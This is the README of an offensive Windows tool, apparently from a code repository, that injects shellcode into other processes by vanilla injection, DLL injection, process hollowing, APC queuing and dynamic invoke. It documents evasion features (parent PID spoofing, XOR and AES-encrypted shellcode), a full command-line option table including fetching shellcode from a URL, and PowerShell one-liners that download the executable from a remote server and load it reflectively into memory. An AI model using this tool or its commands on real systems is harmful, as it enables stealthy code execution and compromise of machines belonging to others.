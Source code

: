 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 5 process injection techniques.

```
1) Vanilla Process Injection
2) DLL Injection
3) Process Hollowing
4) APC Queue
5) Dynamic Invoke - Vanilla Process Injection
```

The tool accepts shellcode in 4 formats.

```
1) base64
2) hex
3) c
4) raw
```

Supports 3 detection evading techniques.

```
1) Parent PID Spoofing

Encryption
2) XOR Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
3) AES Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
```

Can be loaded via reflection.

```
# Load from the disk
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("ProcessInjection.exe"));

# Load from a remote server
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http/<URL>/ProcessInjection.exe"))

# Perform process injection
[ProcessInjection.ProcessInjection]::Main(@("/t:1", "/f:base64", "/pid:<ProcessId>", "/sc:<ShellCode>"))
```

### Command Line Usage

```
Usage Description
----- -----------
/t Specify the process injection technique id.
 1 = Vanilla Process Injection
 2 = DLL Injection
 3 = Process Hollowing
 4 = APC Queue Injection
/f Specify the format of the shellcode.
 base64
 hex
 c
 raw
/pid Specify the process id.
/parentproc Specify the parent process name.
/path Specify the path of the file that contains the shellcode.
/ppath Specify the path of the executable that will be spawned (Mandatory while using /parentproc argument).
/url Specify the url where the shellcode is hosted.
/enc Specify the encryption type (aes or xor) in which the shellcode is encrypted.
/key Specify the key that will be used to decrypt the shellcode.
/sc Specify the shellcode directly in base64 or hex format. Note: To pass large shellcode please leverage reflection to run the program.
/help Show help
```

### Blog Post

[https/3xpl01tc0d3r.blogspot.com/2019/0process-injection-part-i.html](https/3xpl01tc0d3r.blogspot.com/2019/0process-injection-part-i.html)

[https/3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https/3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https/3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https/3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https/medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https/medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https/3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https/3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)

[https/3xpl01tc0d3r.blogspot.com/2020/0process-injection-tool-updates.html](https/3xpl01tc0d3r.blogspot.com/2020/0process-injection-tool-updates.html)


### Contribution Credit

[Renos](https/twitter.com/r3n_hat)

Credits also goes to :

[Aaron Bray](https/github.com/ambray) & [Rasta Mouse](https/twitter.com/_rastamouse) for Process Hollowing code

[The Wover](https/twitter.com/TheRealWover) & [b33f](https/twitter.com/FuzzySec) for Dynamic Invoke - (https/thewover.github.io/Dynamic-Invoke/)
